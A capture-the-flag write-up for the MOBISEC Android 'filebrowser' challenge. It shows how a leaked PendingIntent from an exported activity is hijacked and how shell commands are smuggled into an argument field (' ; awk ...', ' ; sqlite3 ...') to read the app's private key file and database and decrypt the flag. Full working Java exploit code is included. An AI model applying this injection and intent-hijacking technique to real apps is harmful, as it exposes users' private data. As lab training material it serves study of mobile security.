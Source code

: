 # Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the codes.

<img src="screenshots/_exploitation/filebrowser/r1.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/filebrowser/r2.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/filebrowser/r3.PNG" alt="codes" style="zoom:100%;" />

From the main activity, this application will receive the choices from the user with the linux command ls, du, and cat, with args, and send the intent to the class `QuaryActivity`. Then, the class `QuaryActivity` will execute ls and du commands and return the outputs of the execution. If `BuildConfig.BUILD_TYPE` or `debug` is *true*, the logs will be logged in the file `/sdcard/browser.log`. 

<img src="screenshots/_exploitation/filebrowser/ui.PNG" alt="ui" style="zoom:50%;" />

<img src="screenshots/_exploitation/filebrowser/r4.PNG" alt="codes" style="zoom:100%;" />

To set the flag, the application will get the aes key from shared preference file first, and then call the function `rawLogQuery` with `oper` = encrypted "genflag" with aes key and `arg` = encrypted flag, with the content uri "content://com.mobisec.provider.Log/log". The flag should be stored in the database. 



<img src="screenshots/_exploitation/filebrowser/r5.PNG" alt="codes" style="zoom:100%;" />

In addition, in class `PluginActivity`, a pending intent is created to `QueryActivity` and is put into an intent. 



```xml
<provider android:name="com.mobisec.filebrowser.LogProvider" android:enabled="true" android:exported="false" android:authorities="com.mobisec.provider.Log"/>
<activity android:name="com.mobisec.filebrowser.QueryActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.AboutActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.PluginActivity" android:permission="com.mobisec.filebrowser.permission.PLUGIN">
    <intent-filter>
        <action android:name="com.mobisec.browser.action.START_PLUGIN"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

Also, in manifest of the application, the parameter exported are set to be false for all except `PluginActivity`, so we may call this activity directly. To send the intent to `PluginActivity`, we can get the pending intent to call `QueryActivity` When calling QueryActivity, the extended data need to be added into the intent to set `debug` = *true*, and two parameters `oper` and `arg`. 

> By giving a PendingIntent to another application, you are granting it the right to perform the operation you have specified as if the other application was yourself (with the same permissions and identity). As such, you should be careful about how you build the PendingIntent



To make the analysis system prints out the key stored in the shared preference file, we can use the command `ls ; awk 'NR==X'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml` to print the Xth line of the file. According to the codes in class QueryActivity, the application can only get one line from the commands and write it to the log, I try to print the line one by one and find out that the key is stored in the third line of shared preference file.

<img src="screenshots/_exploitation/filebrowser/getkey3.PNG" alt="key3" style="zoom:50%;" />



For the key is generated randomly for each time, we should split the printed information for the key first, and then get the encrypted flag from the database. For the database name is "LogDb", the path of the database should be `/data/data/com.mobisec.filebrowser/databases/LogDb`. We can query this database to get the encrypted flag, and decrypt it. For the flag is set at the beginning of the program, the *id* for the flag storage should be 1. Also this can be tested by query the table *log* to get the `oper` and `arg`.

<img src="screenshots/_exploitation/filebrowser/DATABASEinfo.PNG" alt="database info" style="zoom:100%;" />



As the screenshot below, `I query SELECT oper FROM log where id=1;` and get the result the same as `encOper`, so the flag is in the first row of the table.

<img src="screenshots/_exploitation/filebrowser/1.PNG" alt="1info" style="zoom:100%;" />



According to the reference for the [SQLite](https://sqlite.org/cli.html), the command for query should be `sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1;\"`. I put this query command into a new intent and also send the pending intent with it. The query result is written to a new file in SD card. Then reading this new file and using the key to descript it, and the flag is got.

<img src="screenshots/_exploitation/filebrowser/agood.PNG" alt="f" style="zoom:100%;" />





The full codes refer to [here](AndroidStudioProjects_exploitation/filebrowser/app/src/main/java/com/example/filebrowser/MainActivity.java)

```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent i = new Intent();
        i.setComponent(new ComponentName("com.mobisec.filebrowser","com.mobisec.filebrowser.PluginActivity"));
        i.setAction("com.mobisec.browser.action.START_PLUGIN");
        startActivityForResult(i,400);

    }

    String[] key = new String[1];
    String encOper = "";

    @SuppressLint("Range")
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        try {
            Bundle bundle1 = data.getExtras();
            final PendingIntent pi1 = (PendingIntent) bundle1.get("pi");
            final Intent i1 = new Intent();
            i1.putExtra("debug", true);
            i1.putExtra("oper", "ls");
            i1.putExtra("arg", " ; awk 'NR==3'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml");

            pi1.send(this, 1, i1, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile = readFile("/sdcard/browser.log");
            Log.i("MOBISEC", readfile);
            key[0] = readfile.substring(23, 23 + 20);
            Log.i("MOBISEC", "key[0]: " + key[0]);

            byte[] aesKey = getAesKey(key[0]);
            Log.i("MOBISEC", "aesKey: " + Arrays.toString(aesKey));

            encOper = bin2hex(encrypt("genflag".getBytes(), aesKey));
            Log.i("MOBISEC", "encOper: " + encOper);         

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            final Intent i2 = new Intent();
            i2.putExtra("debug", true);
            i2.putExtra("oper", "ls");
            i2.putExtra("arg", " ;  sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1 ;\" > /sdcard/r.txt    ");
            pi1.send(this, 2, i2, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile1 = readFile("/sdcard/r.txt");
            Log.i("MOBISEC", readfile1);
            String f = new String(decrypt(hex2bin(readfile1), aesKey));
            Log.w("MOBISEC",f);
        }
        catch  (Exception e) {
            Log.w("MOBISEC",Log.getStackTraceString(e));
        }     
    }
```



In my program, the following permissions are given:

```xml
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="com.mobisec.filebrowser.permission.PLUGIN" android:protectionLevel="normal" />
```




## Optional Feedback

The hex2bin function (`public static byte[] hex2bin(String hex) throws NumberFormatException`) provided by the reversed code cannot be used. I don't know where the exception or error is. 

<img src="screenshots/_exploitation/filebrowser/errorhex2bin.PNG" alt="errorhex2bin" style="zoom:100%;" />



## reference

Save data using SQLite: https://developer.android.com/training/data-storage/sqlite

&lt;provider&gt;: https://developer.android.com/guide/topics/manifest/provider-element?hl=zh-cn

PendingIntent: https://developer.android.com/reference/android/app/PendingIntent

Android PendingIntent: https://www.jianshu.com/p/4a8fc0b78094

SQLite database storage location and files: https://www.cnblogs.com/AnneHan/p/14987091.html

SQLite commands: https://www.runoob.com/sqlite/sqlite-commands.html

hex2bin: https://www.jianshu.com/p/6c147330f4b9

Command Line Shell For SQLite: https://sqlite.org/cli.html
